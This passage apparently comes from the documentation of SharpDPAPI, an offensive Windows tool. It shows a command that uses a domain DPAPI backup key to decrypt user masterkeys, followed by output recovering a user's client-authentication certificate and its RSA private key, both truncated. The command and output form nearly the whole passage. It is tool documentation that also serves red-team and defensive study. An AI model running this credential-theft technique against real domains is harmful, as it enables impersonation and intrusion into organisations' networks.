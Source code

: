 Using a domain DPAPI backup key to first decrypt any discoverable masterkeys:

    C:\Temp>SharpDPAPI.exe certificates /pvk:HvG1sAAAAAABAAAAAAAAAAAAAACU...(snip)...
      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.10.0


    [*] Action: Certificate Triage
    [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!


    [*] User master key cache:

    {dab90445-0a08-4b27-9110-b75d4a7894d0}:C23AF7432EB51371...(snip)...



    Folder       : C:\Users\harmj0y\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-937929760-3187473010-80948926-1104

      File               : 34eaff3ec61d0f012ce1a0cb4c10c053_6c712ef3-1467-4f96-bb5c-6737ba66cfb0

        Provider GUID    : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
        Master Key GUID  : {dab90445-0a08-4b27-9110-b75d4a7894d0}
        Description      : CryptoAPI Private Key
        algCrypt         : CALG_3DES (keyLen 192)
        algHash          : CALG_SHA (32772)
        Salt             : ef98458bca7135fe1bb89b3715180ae6
        HMAC             : 5c3c3da2a4f6548a0186c22f86d7bc85
        Unique Name      : te-UserMod-8c8e0236-76ca-4a36-b4d5-24eaf3c3e1da

        Thumbprint       : 98A03BC583861DCC19045758C0E0C05162091B6C
        Issuer           : CN=theshire-DC-CA, DC=theshire, DC=local
        Subject          : CN=harmj0y
        Valid Date       : 2/22/2021 2:19:02 PM
        Expiry Date      : 2/22/2022 2:19:02 PM
        Enhanced Key Usages:
            Client Authentication (1.3.6.1.5.5.7.3.2)
             [!] Certificate is used for client auth!
            Secure Email (1.3.6.1.5.5.7.3.4)
            Encrypting File System (1.3.6.1.4.1.311.10.3.4)

        [*] Private key file 34eaff3ec61d0f012ce1a0cb4c10c053_6c712ef3-1467-4f96-bb5c-6737ba66cfb0 was recovered:

    -----BEGIN RSA PRIVATE KEY-----
    MIIEpAIBAAKCAQEA0WDgv/jH5HuATtPgQSBie5t...(snip)...
    -----END RSA PRIVATE KEY-----
    -----BEGIN CERTIFICATE-----
    MIIFujCCBKKgAwIBAgITVQAAAJf6yKyhm5SBVwA...(snip)...
    -----END CERTIFICATE-----


#### triage
